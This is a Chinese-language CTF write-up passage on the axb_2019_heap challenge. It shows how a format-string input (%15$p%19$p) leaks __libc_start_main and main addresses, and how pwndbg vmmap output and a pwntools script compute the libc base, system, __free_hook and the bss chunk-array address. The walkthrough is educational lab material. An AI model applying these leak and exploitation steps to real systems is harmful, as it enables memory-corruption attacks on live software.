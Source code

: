 我们这里用到的是泄露__libc_start_main+240以及main函数的地址

偏移分别为15和19 前面的__libc_start_main为了泄露libc 后面的main是为了寻找到我们所需要的的存放chunk的数组首地址

计算libc偏移我懒得细说了， 得到的是__libc_start_main+240，泄露出来后减去240再减去libc文件中的偏移就有了基地址了

这里花多点时间讲下数组首地址的寻找

首先我们先正常的创建个chunk，然后用vmmap看下此时的内存空间，在此我们先把main函数的地址找到如下

```c
pwndbg> p main
$1 = {<text variable, no debug info>} 0x55992dfc516a <main>

```

vmmap

我们可以看见

数据的起始地址在0x55992dfc4000

0x55992dfc516a这个是main的他距离起始地点为0x116a

那么我们要找的是chunk的存放首地址，打开ida看note在bss段地址0x0202060

拿起始点加上bss段地址就是我们真实的数组存放chunk的地址

```c
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x55992dfc4000     0x55992dfc6000 r-xp     2000 0      /home/q/Desktop/axb_2019_heap
    0x55992e1c5000     0x55992e1c6000 r--p     1000 1000   /home/q/Desktop/axb_2019_heap
    0x55992e1c6000     0x55992e1c7000 rw-p     1000 2000   /home/q/Desktop/axb_2019_heap
    0x55992e6b3000     0x55992e6d4000 rw-p    21000 0      [heap]
    0x7f89ea34b000     0x7f89ea50b000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7f89ea50b000     0x7f89ea70b000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7f89ea70b000     0x7f89ea70f000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7f89ea70f000     0x7f89ea711000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7f89ea711000     0x7f89ea715000 rw-p     4000 0      
    0x7f89ea715000     0x7f89ea73b000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7f89ea91e000     0x7f89ea921000 rw-p     3000 0      
    0x7f89ea93a000     0x7f89ea93b000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7f89ea93b000     0x7f89ea93c000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7f89ea93c000     0x7f89ea93d000 rw-p     1000 0      
    0x7ffcae6b7000     0x7ffcae6d8000 rw-p    21000 0      [stack]
    0x7ffcae73b000     0x7ffcae73e000 r--p     3000 0      [vvar]
    0x7ffcae73e000     0x7ffcae740000 r-xp     2000 0      [vdso]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]

```

脚本如下计算偏移

```python
r.recvuntil("Enter your name: ")
r.sendline('%15$p%19$p')
r.recvuntil('Hello, ')
leak=int(r.recv(14),16)-240
print('leak:'+hex(leak))
base=leak-libc.symbols["__libc_start_main"]
sys=base+libc.symbols["system"]
free_hook=base+libc.symbols["__free_hook"]
print('sys:'+hex(sys))
leak1=int(r.recv(15),16)
ptr=leak1-0x116a+0x202060
print('leak1'+hex(leak1))
print('bss_ptr:'+hex(ptr))
```
